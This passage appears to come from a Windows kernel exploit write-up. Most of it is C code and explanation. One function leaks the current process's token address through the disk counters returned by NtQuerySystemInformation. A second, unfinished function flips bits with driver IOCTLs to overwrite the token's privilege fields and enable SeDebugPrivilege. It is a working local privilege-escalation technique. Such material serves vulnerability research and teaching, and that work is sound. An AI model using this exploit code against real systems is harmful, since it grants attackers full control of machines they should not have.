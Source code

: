 ```C
ULONG_PTR leak()
{
    ULONG returnlength = 0;
    NTSTATUS status = NtQuerySystemInformation(SystemProcessInformation, nullptr, 0, &returnlength);
    SYSTEM_PROCESS_INFORMATION* procinfo = (SYSTEM_PROCESS_INFORMATION*)calloc(5, returnlength);
    status = NtQuerySystemInformation(SystemProcessInformation, procinfo, returnlength, &returnlength);

    //printf("[Leak] SystemProcessInformation %p %x\n", procinfo, returnlength);

    ULONG_PTR ret = 0;

    while (1)
    {
        /*
        * --------->SYSTEM_PROCESS_INFORMATION
        *           SYSTEM_THREAD_INFORMATION[no of threads]
        *           PROCESS_DISK_COUNTERS DiskCounter
        */
        PROCESS_DISK_COUNTERS* Counters = (PROCESS_DISK_COUNTERS*)((char*)procinfo + sizeof(SYSTEM_PROCESS_INFORMATION) + sizeof(SYSTEM_THREAD_INFORMATION)* procinfo->NumberOfThreads);
        
        if (procinfo->UniqueProcessId == (HANDLE)GetCurrentProcessId())
        {
            ret = Counters->BytesWritten;
        }

        if (procinfo->NextEntryOffset == 0)
        {
            break;
        }

        procinfo = (SYSTEM_PROCESS_INFORMATION*)((ULONG_PTR)procinfo + procinfo->NextEntryOffset);
    }

    return ret;
}
```
The value we got after reading the `BytesWritten` need to be masked by `0xf` because token is stored in EPROCESS in `struct EX_FAST_REF` which is a union and adds the last byte as `RefCount` which needs to be removed.
```C
 ULONG_PTR token = leak() & ~0xf ;    // mask the refCount 
 ```
Now, we got the address of token which is stored as `_TOKEN` structure . It has `struct _SEP_TOKEN_PRIVILEGES Privileges` at offset 0x40 which stored the privileges of the process . So, we will write any value to `privilges.present` and `privilges.enabled` to enable  the `SeDebugPrivileges`.

```C
bool priv(HANDLE file, ULONG_PTR value)
{
    for (int i = 0; i < 64; i++)
    {
        ULONG BitToFlip = diskCounterOffset * 8 + i;
        ULONG BytesReturned;
        DWORD ioctlcode = (((ULONG_PTR)value >> i) & 1) ? IOCTL_PROCESS_SET : IOCTL_PROCESS_CLEAR;
        if (!DeviceIoControl(file, ioctlcode, &BitToFlip, sizeof(BitToFlip), NULL, 0, &BytesReturned, NULL)) {
            printf("[priv] [%d] DeviceIoControlCode failed (0x%08X)\n", i, GetLastError());
            return FALSE;
        }
    }

```